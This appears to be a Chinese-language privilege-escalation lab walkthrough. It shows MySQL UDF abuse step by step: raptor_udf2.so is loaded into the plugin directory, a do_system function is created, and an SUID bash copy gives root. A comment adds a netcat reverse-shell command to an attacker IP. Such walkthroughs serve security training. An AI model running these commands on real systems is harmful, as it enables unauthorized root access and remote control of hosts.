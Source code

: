 使用空白密码作为 root 用户连接到 MySQL 服务，得到一个MySQL shell:

```shell
mysql -u root
#如果此处需要密码的话，我们要先找到mysql用户的密码，然后使用mysql -u root -p 登录mysql
#关于mysql的用户和密码信息，尝试找一下/var/www/html/config.inc.php 
```

![image-20221009212632169](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009212632169.png)

在 MySQL shell 上执行以下命令，利用我们已经编译过的exp创建用户定义函数(UDF) " do \_ system ":

```shell
#选择 mysql db
use mysql;

#我们需要创建一个临时表供我们使用。因为我们需要一个地方来加载共享的二进制文件到 MySQL。
create table foo(line blob);

#接下来需要将文件内容插入到表中
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

#要使用UDF，我们还需要找到插件目录的位置，这就是我们需要存储文件的地方，可以通过命令找到：show variables like '%plugin%';
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

#创建函数
create function do_system returns integer soname 'raptor_udf2.so';

#验证函数是否成功被创建：select * from mysql.func;
```

![image-20221009212855992](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009212855992.png)

使用刚才创建的函数将/bin/bash 复制到/tmp/rootbash 并设置 SUID 权限:

```shell
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
#也可以执行其他命令如:"select do_system('nc 192.168.1.24 4444 -e /bin/bash &');"  提前在攻击机上设置netcat监听器，就能捕获一个root shell。
```

![image-20221009213148629](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009213148629.png)

退出 MySQL shell（输入 **exit** 或者 **\q** 然后按下回车键），并用-p 运行/tmp/rootbash 可执行文件，以获得一个具有 root 特权的 shell:

```shell
/tmp/rootbash -p
```

![image-20221009213702587](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221009213702587.png)

操作成功之后，删除/tmp/rootbash 可执行文件并退出root shell，继续做下一个任务。

```shell
rm /tmp/rootbash
exit
```
